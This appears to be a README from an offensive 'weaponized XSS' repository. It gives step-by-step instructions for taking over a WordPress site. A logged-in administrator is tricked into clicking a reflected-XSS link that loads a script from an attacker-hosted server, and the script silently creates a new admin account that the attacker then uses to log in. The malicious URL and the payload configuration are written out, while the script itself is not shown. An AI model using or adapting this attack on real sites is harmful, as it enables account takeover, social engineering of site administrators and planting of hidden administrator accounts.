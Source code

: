 # [ATO] Create New Admin User

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccWP.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 9 characters)

    `newAccEmail` - email of the user account to be created

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/createAdminAccWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] attacker logs into target WordPress site using specified credentials

    http://192.168.5.10/wp-login.php

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/CreateNewAdmin/screenshots/WordPress_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/0e60144c-02c9-4e71-a1cf-1241a2990d3f
